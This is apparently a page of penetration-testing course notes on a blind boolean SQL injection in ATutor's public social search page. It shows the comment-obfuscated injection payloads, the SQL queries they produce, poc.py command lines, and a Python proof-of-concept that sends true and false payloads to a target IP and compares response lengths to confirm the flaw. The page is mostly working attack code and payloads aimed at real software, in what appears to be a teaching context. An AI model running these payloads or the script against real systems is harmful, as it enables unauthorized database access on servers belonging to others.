 ```
AAAA')/**/or/**/(select/**/1)=0%23
```
Listing 37 - The injected payload whereby the query evaluates to "false"

```
SELECT count(*) FROM AT_members M WHERE (first_name LIKE '%AAAA')/**/or/**/(select/**/1)=1
%'  OR second_name LIKE '%AAAA')/**/or/**/(select/**/1)=1#%'  OR last_name LIKE '%AAAA')/**/or/**/(select/**/1)=1#%'  OR login LIKE '%AAAA')/**/or/**/(select/**/1)=1#%');

SELECT count(*) FROM AT_members M WHERE (first_name LIKE '%AAAA')/**/or/**/(select/**/1)=0
%'  OR second_name LIKE '%AAAA')/**/or/**/(select/**/1)=0#%'  OR last_name LIKE '%AAAA')/**/or/**/(select/**/1)=0#%'  OR login LIKE '%AAAA')/**/or/**/(select/**/1)=0#%');

```


```
python poc.py atutor "AAAA')/**/or/**/(select/**/1)=1%23"

python poc.py atutor "AAAA')/**/or/**/(select/**/1)=0%23"
```


```
import requests
import sys

def searchFriends_sqli(ip, inj_str, query_type):
    target      = "http://%s/ATutor/mods/_standard/social/index_public.php?q=%s" % (ip, inj_str)
    r = requests.get(target)
    content_length = int(r.headers['Content-Length'])
    if (query_type==True) and (content_length > 20):
        return True
    elif (query_type==False) and (content_length == 20):
        return True
    else:
        return False

def main():
    if len(sys.argv) != 2:
        print("(+) usage: %s <target>"  % sys.argv[0])
        print('(+) eg: %s 192.168.121.103'  % sys.argv[0])
        sys.exit(-1)

    ip = sys.argv[1]

    false_injection_string = "test')/**/or/**/(select/**/1)=0%23"
    true_injection_string  = "test')/**/or/**/(select/**/1)=1%23"

    if searchFriends_sqli(ip, true_injection_string, True):
        if searchFriends_sqli(ip, false_injection_string, False):
            print("(+) the target is vulnerable!")

if __name__ == "__main__":
    main()

```
